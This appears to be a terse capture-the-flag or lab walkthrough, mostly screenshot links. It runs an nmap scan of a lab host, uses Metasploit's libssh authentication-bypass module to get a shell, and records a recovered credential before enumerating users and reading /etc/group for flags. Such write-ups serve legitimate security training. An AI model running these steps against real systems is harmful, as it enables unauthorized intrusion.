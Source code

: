 ![c0f17cba66e86d36f55312e4f53b19f2.png](../../../_resources/c0f17cba66e86d36f55312e4f53b19f2.png)

Then do the nmap

nmap -p- -sC -sV 192.58.111.4 -vvv -oA nmap full

![52c8d7a1d8ae7cd80a8233c075cc0f30.png](../../../_resources/52c8d7a1d8ae7cd80a8233c075cc0f30.png)

![b552e2be1a39a8f55b17b7d83c9da937.png](../../../_resources/b552e2be1a39a8f55b17b7d83c9da937.png)

nmap for second target

![8140c78aa7f1fa3fb06659f08b28dcad.png](../../../_resources/8140c78aa7f1fa3fb06659f08b28dcad.png)

There is an exploit on metasploit for libssh

![59ef62bd8fd5f48ae6774321c7b798fd.png](../../../_resources/59ef62bd8fd5f48ae6774321c7b798fd.png)

![e8aeec91d811107481d2590cd8535894.png](../../../_resources/e8aeec91d811107481d2590cd8535894.png)

that named: scanner/ssh/libssh_auth_bypass

![0b9cb4b8d612542a08d5eb91c3c606db.png](../../../_resources/0b9cb4b8d612542a08d5eb91c3c606db.png)

![3b6d1a510d96d4b057664f016036eba5.png](../../../_resources/3b6d1a510d96d4b057664f016036eba5.png)

set spawn_pty true

set rhosts target1 ipl

set CreateSession true

run

![ef7000c587e4a9254417847abe1b9088.png](../../../_resources/ef7000c587e4a9254417847abe1b9088.png)

d![c2bcd210df44c814f81c477bde0546e2.png](../../../_resources/c2bcd210df44c814f81c477bde0546e2.png)

&nbsp;

that file contains:

john:Pass@john123

lets enumerate users on system: flag1

![ae26b386e5b0c69b483177c6989cff2c.png](../../../_resources/ae26b386e5b0c69b483177c6989cff2c.png)

**Flag 2: User groups might reveal more than you expect.**

![ab6771fc70efe755aecf984d1f4b6a4a.png](../../../_resources/ab6771fc70efe755aecf984d1f4b6a4a.png)

cat /etc/group

![a5174814d170b8944c46f94859041e91.png](../../../_resources/a5174814d170b8944c46f94859041e91.png)
